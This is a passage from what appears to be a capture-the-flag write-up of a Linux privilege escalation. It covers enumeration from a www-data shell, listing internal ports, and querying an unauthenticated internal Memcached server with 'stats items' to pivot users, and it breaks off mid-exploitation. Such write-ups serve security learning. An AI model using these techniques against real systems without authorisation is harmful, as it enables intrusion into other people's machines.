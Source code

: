 ![Img](images/ash.png)

## Privilege Escalation II: Pivoting user through Memcached server

I started my usual enumeration with `LinEnum.sh`, as I only had a low-privileged shell as `www-data`. Couldn't see anything too interesting so I thought of checking services running internally with `ss -lntu`.

```console
ash@cache:~$ ss -lntu
ss -lntu
Netid  State    Recv-Q   Send-Q      Local Address:Port      Peer Address:Port  
udp    UNCONN   0        0           127.0.0.53%lo:53             0.0.0.0:*     
tcp    LISTEN   0        80              127.0.0.1:3306           0.0.0.0:*     
tcp    LISTEN   0        128             127.0.0.1:11211          0.0.0.0:*     
tcp    LISTEN   0        128         127.0.0.53%lo:53             0.0.0.0:*     
tcp    LISTEN   0        128               0.0.0.0:22             0.0.0.0:*     
tcp    LISTEN   129      128                     *:80                   *:*     
tcp    LISTEN   0        128                  [::]:22                [::]:*
```

### How Memcached works

> Memcached is an in-memory key-value store for small chunks of arbitrary data (strings, objects) from results of database calls, API calls, or page rendering.

> The data in Memcached is organised in slabs, which are predetermined lists for objects of the same size. Given that all objects have a similar size memory fragmentation is reduced.

### Exploitation

I tried to connect to the server via telnet and execute commands following this [post](https://www.hackingarticles.in/penetration-testing-on-memcached-server/):

- `stats items`: returns all the data organised by slab ID (in our case we only have one).

```
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 14
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
```